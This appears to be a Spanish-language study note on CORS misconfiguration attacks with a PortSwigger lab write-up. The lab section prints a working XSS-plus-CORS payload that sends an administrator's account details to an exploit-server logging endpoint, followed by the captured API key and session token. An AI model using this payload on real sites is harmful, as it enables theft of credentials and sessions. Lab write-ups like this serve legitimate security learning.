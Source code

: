 
## Exploiting XSS via CORS trust relationships

Incluso un CORS configurado «correctamente» establece una relación de confianza entre dos orígenes. Si un sitio web confía en un origen vulnerable al cross-site scripting (XSS), un atacante podría aprovechar el XSS para inyectar código JavaScript que utilice CORS para recuperar información confidencial del sitio que confía en la aplicación vulnerable.

Dada la siguiente solicitud:

```c
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: https://subdomain.vulnerable-website.com
Cookie: sessionid=...
```

Si el servidor responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

Entonces, un atacante que encuentre una vulnerabilidad XSS en `subdominio.sitio-web-vulnerable.com` podría utilizarla para recuperar la clave API, utilizando una URL como:

```c
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

## Breaking TLS with poorly configured CORS

Supongamos que una aplicación que utiliza rigurosamente HTTPS también incluye en la lista blanca un subdominio de confianza que utiliza HTTP sin cifrar. Por ejemplo, cuando la aplicación recibe la siguiente solicitud:

```c
GET /api/requestApiKey HTTP/1.1
Host: vulnerable-website.com
Origin: http://trusted-subdomain.vulnerable-website.com
Cookie: sessionid=...
```

La aplicación responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://trusted-subdomain.vulnerable-website.com
Access-Control-Allow-Credentials: true
```

## Lab: CORS vulnerability with trusted insecure protocols

![20250922180347.png](20250922180347.png)

Al iniciar el laboratorio observamos una lista de articulos.

![20250922180512.png](20250922180512.png)

Luego iniciaremos sesion con las credenciales  proporcionadas

![20250922180619.png](20250922180619.png)

Al iniciar session y interceptando el trafico encontraremos que hace una petición a `/accountDetals`

![20250922180639.png](20250922180639.png)

En esta ruta vemos que al hacer una petición `GET` obtendremos información del usuario

![20250922180852.png](20250922180852.png)

al agregar `Origin: https://evil.com` el servidor no nos refleja. Entonces al probar el dominio del sitio web, este si nos devuelve y refleja, por lo que en este sitio web solo esta permitido las peticion desde la mismo dominio.

![20250922180926.png](20250922180926.png)

Para poder obtener la información (apikey, session..) del usuario administrador tendremos que explotar antes un xss

![20250922182417.png](20250922182417.png)

En el subdominio `http://stock.0a5400e203221b24816d8a2f009600e9.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=2` podemos explotar del parámetro `productId` 

![20250922182611.png](20250922182611.png)

Una vez encontrada la vulnerabilidad de xss, podremos enviar nuestro codigo malicioso y entregar a la victima.

```c
<!DOCTYPE html>
<html lang="en">

<body>
    <script>
        document.location="http://stock.0a5400e203221b24816d8a2f009600e9.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a5400e203221b24816d8a2f009600e9.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a6b00ad039d1bfb81d589a3015a0062.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
    </script>
</body>
</html>
```

al guardar y entregar a la victima, podremos ver la información del usuario administrator.

```c
10.0.3.27       2025-09-22 23:44:12 +0000 "GET /log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%22AcF3AsOAB4lfOAp4W3bEXCfnF3I8Pw91%22,%20%20%22sessions%22:%20[%20%20%20%20%22b1c6hqpz71NMwssLN0fjFMjNtpcEsHHW%22%20%20]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

```c
10.0.3.27       2025-09-22 23:44:12  0000 "GET /log?key={  "username": "administrator",  "email": "",  "apikey": "AcF3AsOAB4lfOAp4W3bEXCfnF3I8Pw91",  "sessions": [    "b1c6hqpz71NMwssLN0fjFMjNtpcEsHHW"  ]} HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
```

## Intranets and CORS without credentials

La mayoría de los ataques CORS se basan en la presencia del encabezado de respuesta:

```c
Access-Control-Allow-Credentials: true
```

Sin ese encabezado, el navegador del usuario víctima se negará a enviar sus cookies, lo que significa que el atacante solo obtendrá acceso a contenido no autenticado, al que podría acceder fácilmente navegando directamente al sitio web de destino.

Sin embargo, hay una situación habitual en la que un atacante no puede acceder directamente a un sitio web: cuando forma parte de la intranet de una organización y se encuentra dentro del espacio de direcciones IP privadas. Los sitios web internos suelen tener un nivel de seguridad inferior al de los sitios externos, lo que permite a los atacantes encontrar vulnerabilidades y obtener un mayor acceso. Por ejemplo, una solicitud de origen cruzado dentro de una red privada puede ser la siguiente:

```c
GET /reader?url=doc1.pdf
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

Y el servidor responde con:

```c
HTTP/1.1 200 OK
Access-Control-Allow-Origin: *
```

